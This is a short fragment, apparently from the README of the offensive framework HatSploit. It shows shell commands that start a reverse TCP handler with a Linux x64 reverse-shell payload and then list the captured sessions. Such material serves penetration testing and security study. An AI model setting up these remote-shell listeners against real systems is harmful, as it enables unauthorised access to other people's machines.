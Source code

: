 # HatSploit

```shell
sessions --auto-interaction off

use exploit/generic/handler/reverse_tcp
    set payload linux/x64/shell_reverse_tcp
run

sessions -l
```
